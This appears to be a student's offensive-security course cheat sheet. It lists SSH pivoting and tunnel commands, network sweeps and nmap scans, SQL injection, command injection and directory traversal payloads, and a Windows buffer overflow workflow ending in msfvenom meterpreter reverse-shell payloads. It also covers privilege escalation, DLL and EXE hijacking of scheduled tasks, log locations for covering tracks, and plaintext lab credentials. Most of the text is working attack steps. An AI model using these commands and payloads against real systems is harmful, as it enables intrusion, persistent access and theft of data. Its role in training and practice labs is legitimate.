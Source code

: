 KEPE-006-M
jTlU99dknad4D95

Tunnels
exit
ssh -MS /tmp/gray student@10.50.46.234
ssh -S /tmp/gray gray -O forward -D9050
ssh -S /tmp/gray 10 -O forward -L 1700:192.168.28.27:22

for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
proxychains nmap -v -sT -Pn -T4 -sV 192.168.28.129,112,113,114 
-p-[all ports] -p[22,23]


SQL Injection
admin' or 1='1
SELECT carid, name, (SELECT SUM(cost) FROM Tires WHERE name = "goodyear") FROM car WHERE name = "ford";
<URL>/uniondemo.php?Selection=2 OR 1=1
<URL>/uniondemo.php?Selection=2 Union SELECT 1,2,3  <!-- Validate NUMBER of columns required -->
<URL>/uniondemo.php?Selection=2 Union SELECT 1,name,3 FROM Tires <!-- Test pulling VALID data -->
<URL>/uniondemo.php?Selection=2 Union SELECT 1,name,3 FROM car <!-- Test pulling data from ALTERNATE table -->

ssh www-data@0.0.0.0 -p 1460 -L 1400:192.168.150.253:3201 -NT



Windows Buffer Overflow
Break program with tcpcon.py

Open Immunity debuger CPU window and exe as administrator
Attach file in cpu window
Generate Buffer overflow pattern https://wiremask.eu/tools/buffer-overflow-pattern-generator/
Copy EIP to find where the error happens
add DEADCODE to buff in script
mona modules -o
imona jmp -r esp -m "<file>"
find jmp esp instruction memory address
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.46.234 lport=4444 -b
msfconsole -q
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp
show options, set lhost, set lport
shut off real time protection in windows-> security -> vires and threat -> mange settings -> real-time protection





Privilege Escalation,P Persistence and Covering your Tracks
sudo -l (list user permissions)
/var/log/ auth.log/secure (login/authen) lastlog(successful login time) btmp(bad login) sulog(SU command) utmp(W command) wtmp(permanent record on user)

find /var/log -type f -mmin -10 2> /dev/null

msfvenom -p linux/x86/exec CMD="sudo cat /.secret/.verysecret.pdb" -b '\x00' -f python




Windows Exploitation
Services
check path
file explorer

msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\Users\UNAME\Desktop\whoami.txt' -f exe > 7z.exe
scp
task scheduler
find task run by system try and try and edit/create files within the directory
view hidden files

msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\Users\UNAME\Desktio\dll.dll' -f dll > name of dll its calling for

ssh -S /tmp/gray pivot -O forward -L 1700:192.168.28.105:2222
ssh comrade@0.0.0.0 -p 1700 -L 40000:192.168.28.27:22
ssh zeus@0.0.0.0 -p 40000 -L 1900:192.168.28.9:3389
ghjcnbnenrf
xfreerdp /u:comrade /v:0.0.0.0:1900 /p:StudentMidwayPassword /size:1920x1000 +clipboard




Pre-Test

5 boxes
ignore .190 and 10.10
Lin-Ops -> 10.50.46.125
2 Root/Admin 

1)10.50.46.125 port 22,80
nmap -v -sT -Pn -T4 -sV 10.50.46.125
nmap -v -sT -Pn -T4 -sV --script=http-enum.nse 10.50.46.125 -p 80

cmd injection ;whoami
SQL injection admin' or 1='1
Directory Traversal ../../../../../etc/passwd, /etc/hosts, 

user2 [1] => RntyrfVfNER78 [pass] - EaglesIsARE78
 user3 [1] => Obo4GURRnccyrf [pass] -  Bob4THEEapples
Lee_Roth [1] => anotherpassword4THEages

cat /etc/hosts
ip n
arp -a

ssh -MS /tmp/gray user2@10.50.46.125

sudo -l
find perm command
crontab

for i in {1..254} ;do (ping -c 1 192.168.28.$i | grep "bytes from" &) ;done
192.168.28.172,181

ssh -s /tmp/gray/gray -O forward -D9050

proxychains nmap -v -sT -Pn -T4 -sV 192.168.28.172,181

192.168.28.172 22
192.168.28.181 WebApp 22,80

ssh -S /tmp/gray gray -O forward -L 1330:192.168.28.181:80
nmap -v -sT -Pn -T4 -sV --script=http-enum.nse 192.168.28.181 -p 80

3)
4)
UNION SELECT table_schema,column_name,table_name FROM information_schema.columns
http://0.0.0.0:1200/pick.php?product=7 20UNION 20SELECT 20name,user_id,username 20FROM 20siteusers.users


